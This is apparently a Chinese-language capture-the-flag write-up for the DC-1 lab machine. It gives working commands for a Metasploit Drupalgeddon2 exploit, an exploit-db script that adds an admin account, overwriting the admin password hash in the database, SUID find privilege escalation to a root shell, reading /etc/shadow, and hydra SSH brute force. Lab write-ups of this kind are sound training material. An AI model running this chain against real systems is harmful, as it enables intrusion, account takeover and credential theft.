# 信息搜集

## 主机发现

打开靶机，调成net模式



使用namp -sN 192.168.182.0/24  探测到主机

然后探测端口，发现80端口打开



访问80端口



发现下方写了使用Durpal模板,而且这个小插件也能进行指纹识别（谷歌应用商店可以搜到）

# 漏洞发现与利用

## 漏洞查找

使用Metasploit搜索Drupal

```bash
$ sudo msfdb init && msfconsole
$ search Drupal
```

选择模块



然后挨着试,可以有限选择Rank为excellent的,且更新时间靠后的

这里我们用了2018年的

```bash
$ use exploit/unix/webapp/drupal_drupalgeddon2 
$ show options
$ set RHOSTS 192.168.192.139
$ exploit 或者 run
```

成功反弹shell



然后在该目录下发现了flag1.txt



每一个好的cms都需要一个配置文件,你也是

然后百度该cms的配置文件目录位置



```php
/**
 *

 * flag2
 * Brute force and dictionary attacks aren't the
 * only ways to gain access (and you WILL need access).
 * What can you do with these credentials?
 *
 */
*标志2

*暴力和字典攻击不是最好的选择

*获得访问权限的唯一方法（您将需要访问权限）。

*你能用这些证书做什么？

```

然后还发现了数据库的账号跟密码



尝试连接一下数据库

```bash
meterpreter > mysql -u dbuser -p
```

结果一直返回

```bash
Unknown command: mysql.
```

换一下壳

```bash
输入shell
```

然后输入命令发现有问题,然后看他们说的是因为这不是交互式shell，需要获取交互式shell

使用python反弹一个交互式shell，然后我们登陆数据库

再次进入shell下，输入python命令，发现靶机已安装python 2.7.3，通过pty.spawn()获得交互式shell

```bash
meterpreter > shell
python -V
python -c 'import pty; pty.spawn("/bin/bash")'
```



可以获取到密码密文

然后先去补补功课吧

这里就直接copy师傅们的了

**方法一：**

在exploitdb中有一个针对Drupal 7版本的攻击脚本，可以增加一个admin权限的用户账号，使用此方法简便了破解admin的密码，更直接

查看Drupal版本,确定Drupal版本为7.24

```bash
cat /var/www/includes/bootstrap.inc  |  grep VERSION
```



```
msf > searchsploit drupal   #查找针对Drupal的攻击脚本
```

攻击脚本适用于7.31以下，所以适合7.24版本



利用drupal7.0版本漏洞增加有admin权限的用户：admin1/admin1

```
python /usr/share/exploitdb/exploits/php/webapps/34992.py -t http://192.168.220.130 -u admin1 -p admin1   
```





查看users表，添加admin1成功



使用新添加的用户admin1/admin1登录网站，在content模块下，找到flag3

**方法二：**

使用Drupal对数据库的加密方法，加密脚本位置在网站根目录下的scripts下

使用加密脚本加密新密码123456，生成加密密文

```bash
./scripts/password-hash.sh 123456
password: 123456             
hash: $S$DbpIRKV5QXrJK4Gbhb.LDFoTjqoYNKAOB.DY3V1BL.JMbMkZANhY
```



修改admin用户的密码，更新为新密码：123456

```bash
update  drupaldb.users  set pass="$S$DbpIRKV5QXrJK4Gbhb.LDFoTjqoYNKAOB.DY3V1BL.JMbMkZANhY" where uid=1;
```



使用用户admin/123456登录网站，在content模块下，找到flag3




然后获取提示

> Special PERMS will help FIND the passwd - but you'll need to -exec that command to work out how to get what's in the shadow.

特殊的PERMS可以帮助找到密码-但您需要-exec该命令来确定如何获取隐藏的内容。

Flag3提示词有**perms、find、-exec、shadow**共四个特殊提示词

应该要查看shadow文件，并使用find命令提权

使用find命令查找有特殊权限suid的命令

```bash
find / -perm -4000
```



使用find命令提权

```
find ./ aaa -exec '/bin/sh' \;
```



查看/etc/shadow 文件，发现flag4用户，并且flag4用户可以登录并且有密码，所以存在flag4的家目录

```
cat /etc/shadow
```



flag4用户密码可以使用ssh登录进行爆破，如下：

```
wget http://www.openwall.com/john/j/john-1.8.0.tar.gz   #下载John密码包
tar -xvf john-1.8.0.tar.gz  #解压缩
cd john-1.8.0/ src    #进入源码目录下
uname -a  #查看当前系统版本
make linux-x86-64   #编译并指定当前的Linux系统版本
```

使用hydra+John密码包对flag4的密码进行爆破，爆破密码为：flag4/orange

```
hydra -l flag4 -P john-1.8.0/run/password.lst ssh://192.168.220.130 -f -vV -o hydraflag4.ssh


login: flag4   password: orange
```



使用flag4用户可以通过ssh登录系统

```
ssh flag4@192.168.220.130


密码：orange
```



进入flag4用户的家目录/home/flag4，找到flag4.txt文本文件，找到flag4

```
cd /home/flag4


cat flag4.txt
```



**Flag4:**

Can you use this same method to **find** or access the flag in root?

Probably. But perhaps it's not that easy. Or maybe it is?

你能用同样的方法来查找或访问根目录中的标志吗？

可能。但也许不是那么容易。或许是这样？

 

在flag4中提示在root根目录下存在，进入到root家目录/root下找到thefinalflag.txt文本文件

```
cd /root


cat thefinalflag.txt
```



**thefinalflag:**

Well done!!!!

Hopefully you've enjoyed this and learned some new skills.

You can let me know what you thought of this little journey

by contacting me via Twitter - @DCAU7

做得好！！！！！

希望你喜欢这个并学到了一些新的技能。

你可以让我知道你对这次小旅行的看法。

通过Twitter联系我-@dcau7

 

五个flag全部找到，并学习到使用msfconsole框架，及使用find命令找suid和提权

## 参考文章：

https://blog.csdn.net/weixin_43583637/article/details/101542749

https://www.freebuf.com/articles/network/218073.html